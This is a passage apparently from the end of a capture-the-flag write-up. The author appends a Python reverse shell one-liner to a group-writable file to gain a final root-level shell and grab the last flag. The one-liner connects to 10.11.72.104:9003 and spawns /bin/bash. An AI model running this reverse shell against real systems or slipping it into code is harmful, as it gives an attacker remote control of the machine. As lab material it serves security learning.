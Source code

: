 Neat, the file is writeable for users of the death group, which we belong to (use id -Gn to confirm)

Let's add a shell to the file:

```
export RHOST="10.11.72.104";export RPORT=9003;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```


This pops the last shell after waiting for a bit. Grab the last flag.

Thanks for reading.
